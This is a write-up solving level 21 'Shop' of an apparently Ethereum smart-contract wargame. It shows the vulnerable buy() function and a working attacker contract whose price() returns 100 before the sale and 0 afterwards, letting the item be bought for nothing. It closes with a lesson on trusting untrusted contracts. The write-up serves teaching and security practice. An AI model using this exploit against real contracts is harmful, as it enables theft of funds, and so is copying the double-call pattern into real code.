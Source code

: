 # 21. Shop
<sup>Difficulty 4/10</sup>

Сan you get the item from the shop for less than the price asked?

Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions

## Solution

We need to buy the item for less than shop asks. 

In order to buy the item for less than price we still need to buy the item once. The `buy` function checks `Buyer.price() >= price` and `!isSold`. If we met the requirements we can then set the price.

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

The error is to call the `Buyer.price()` function twice instead than one and store the variable. Also, the second time the function is called is after the updates of the `isSold` variable.

Since we need to override the `Buyer.price()` function we can return the price we want based on the `isSold` variable

```solidity
contract Me is Buyer {
    Shop shop = Shop(0x66ae82655A68E854A99db69Ab326D99e832C526a);
    function price() public view override returns (uint) {
        return shop.isSold() ? 0 : 100;
    }
    function buy() public {
        shop.buy();
    }
}
```

The first time that the `price()` function is called the value will be `100`.
The second time it will be `0`, so the `Shop.price` variable will be set to `0`.

```
|[●▪▪●]| Well done, You have completed this level!!!
```

## OZ Corner

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
